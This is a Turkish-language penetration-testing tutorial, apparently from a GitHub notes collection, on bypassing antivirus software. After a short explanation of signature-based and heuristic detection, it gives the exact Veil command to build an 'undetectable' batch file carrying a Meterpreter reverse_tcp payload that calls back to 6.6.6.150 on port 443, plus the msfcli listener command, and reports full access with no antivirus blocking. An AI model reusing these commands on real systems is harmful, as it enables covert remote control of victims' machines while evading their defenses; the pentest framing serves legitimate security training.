 ### Antivirüs Uygulamalarını Atlatma

Pentest çalışmalarında, hedef sistemi ele geçirdikden sonra yetkisiz işlevleri yerine getirecek bir payload'a ihtiyaç duyulur. Bu bir casus yazılım olabilir (trojan), uzakdan yönetim aracı olabilir (rat) veya hedef sistemde kod/komut çalıştırmanıza olanak sağlayan bir araç  (shellcode exec) olabilir.

__Antivirüsler Nasıl Çalışır?__

* İmza tabanlı (Signature Based)
* ShellCode Analizi
* Sezgisel (heuristic)

__İmza tabanlı (Signature Based)__

* Her imza bir zararlının karakteristik özelliklerini barındırır.
* Tespit edilmiş viruslere ait imzaları içerir.
* Hızlı sonuç verir.
* Yeni nesil viruslere karşı savunmasızdır.
* Zararlının tespit edilmesi, veritabanına konulması ve son kullanıcıya ulaşması yeni nesil tehtitler karşısında ciddi zaman kaybı yaşatmakdadır.

__Sezgisel (heuristic)__

* Zararlıyı, sezgisel ve gerçek zamanlı davranış analizi yaparak tespit etmeye çalışır.

#### Veil kullanarak Sızma Testlerinde Antivirüs Atlatma 
___

Penetrasyon testlerinde sıklıkla antivirus uygulamalarının atlatılması ihtiyacı doğmaktadır. Çeşitli encoding yöntemleri kullanılarak antivirus yazılımları atlatılabilmektedir. Msfpayload, Msfencode, Msfvenom benzeri yazılımlar ile istenilen özelliklerde zararlı yazılım üretmek mümkündür. Aşağıda bunlara alternatif ve oldukça başarılı bir uygulama olan VEIL ile bu işlemin nasıl gerçekleştirilebileceğine değinilmiştir.

Windows işletim sistemleri üzerinde çalışan antiviruslere yakalanmayan batch file oluşturmak için aşağıda ki ilgili komutları çalıştırması yeterlidir. 6.6.6.150 ipsine 443 portu üzerinden reverse bağlantı kurarak erişim sağlanacaktır.

Öncelikle aşağıdaki komut kullanılarak batch file oluşturulabilir. İlgili komut çalıştırıldıktan sonra .bat uzantılı zararlı uygulamamız oluşmuş olacaktır.

```ShellSession
root@kali:#  veil -l powershell -p VirtualAlloc -o undetectable --msfpayload windows/meterpreter/reverse_tcp --msfoptions LHOST=6.6.6.150 LPORT=443
```

![ANTIVIRUS](../resim/ataklar/antivirus/1.png)

![ANTIVIRUS](../resim/ataklar/antivirus/2.png)

Windows üzerinde batch dosyasını çalıştırmadan önce lokal makinamızda 443 portu metasploit ile dinleme moduna alıyoruz.

Aşağıdaki komut ile  443 portunun dinleme moduna alınması sağlanmıştır. Payload olarak reverse_tcp kullanılmıştır.

```ShellSession
root@kali:#  msfcli exploit/multi/handler PAYLOAD=windows/meterpreter/reverse_tcp LHOST=6.6.6.150 LPORT=443 E
```

![ANTIVIRUS](../resim/ataklar/antivirus/3.png)

Windows üzerinde undetectable.bat dosyamızı çalıştırıyoruz. Çalıştırmamızla birlikle meterpreter shell bizi karşılıyor.

![ANTIVIRUS](../resim/ataklar/antivirus/5.png)

Zararlının çalıştırıldığı sistem üzerindeki antivirüsün zararlıyla ilgili herhangi bir bloklama işlemi gerçekleştirmediği aşağıda görülebilmektedir.

![ANTIVIRUS](../resim/ataklar/antivirus/4.png)

Bu şekilde antivirüs atlatılarak mevcut sisteme en üst seviyede erişim sağlanmış olacaktır. 

[KAYNAK](http://blog.bga.com.tr/2014/02/veil-kullanarak-szma-testlerinde.html)

##### DAHA FAZLASI İÇİN

* [Antivirüs Programları Nasıl Çalışır?](http://www.elektrikport.com/teknik-kutuphane/antivirus-programlari-nasil-calisir/11475)
* [Kendi Backdoor'unuzu Oluşturun](http://onuraktas.net/kendi-backdoorunuzu-olusturun/)
* [Antivirüs Atlatma(Bypass)](https://www.youtube.com/watch?v=jGbV9c26N5k)